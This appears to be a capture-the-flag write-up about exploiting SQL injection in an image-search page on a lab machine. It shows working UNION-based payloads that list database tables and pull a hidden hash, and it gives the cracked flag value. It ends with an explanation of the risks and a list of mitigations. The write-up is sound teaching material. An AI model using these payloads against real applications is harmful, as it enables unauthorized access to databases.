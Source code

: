 # SQL INJECTION

## VULNERABILITY

The image search page, accessible at http://192.168.56.2/?page=searchimg, features another search-by-id functionality that appears susceptible to SQL injection.

## EXPLOIT

A simple input like **1 or 1=1** provides a list of images, with the 5th image catching our interest.
The following query revealed details about tables and columns in the database :

```sql
1 UNION SELECT table_name, column_name FROM information_schema.columns
```

Focusing on the "images" keyword, we identified the table "list_images" and the 4 columns : 'id', 'url', 'title', and 'comment'. The "list_images" table looks like this :

| ID  | Title   | Url         |
| --- | ------- | ----------- |
| 1   | id      | list_images |
| 1   | url     | list_images |
| 1   | title   | list_images |
| 1   | comment | list_images |

We then used the query :

```sql
5 UNION SELECT title, comment FROM list_images WHERE id=5
```

and found this message :

> Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
> Url : Hack me ?

We successfully retrieved the flag by decoding and re-encoding the hash using tools like CrackStation and CyberChef, or via the command echo -n albatroz | sha256sum.

## INFOS

SQL injection is a malicious technique that enables an attacker to manipulate or interfere with the SQL queries executed by an application to its associated database. This vulnerability can have severe consequences, **granting unauthorized access to, and control over, the database**. An attacker exploiting SQL injection may gain the ability to **read, modify, or delete sensitive data stored in the database**. This could potentially include compromising users' personal information, accessing email addresses, and obtaining passwords. The impact of SQL injection extends beyond mere unauthorized data access, as it poses a substantial threat to the confidentiality, integrity, and availability of the entire database.

## PATCH

To reduce the risks associated with SQL injection attacks, consider implementing the following security measures:

    1. Input Validation and Parameterized Statements:
      - Validate and sanitize all user inputs on the server side.
      - Use parameterized statements (prepared statements) in SQL queries to separate user input from SQL code.

    2. Stored Procedures:
      - Utilize stored procedures to encapsulate and execute SQL queries. This adds an additional layer of security by limiting direct access to the database.

    3. Least Privilege Principle:
      - Ensure that database accounts used by your application have the least privilege necessary to perform their tasks. Avoid using accounts with unnecessary permissions.

    4. Whitelisting:
      - Implement input whitelisting, allowing only predefined, safe characters or patterns. This helps prevent the injection of malicious SQL code.

    5. ORMs and Parameterized Queries:
      - If using Object-Relational Mapping (ORM) frameworks, make sure they generate parameterized queries to prevent SQL injection vulnerabilities.

    6. Error Handling:
      - Implement proper error handling to avoid exposing sensitive information in error messages. Provide generic error messages to users and log detailed errors for administrators.

    7. Web Application Firewalls (WAFs):
      - Use Web Application Firewalls to filter and monitor HTTP traffic between a web application and the Internet. WAFs can help detect and prevent SQL injection attacks.

## SOURCES

https://portswigger.net/web-security/sql-injection
https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
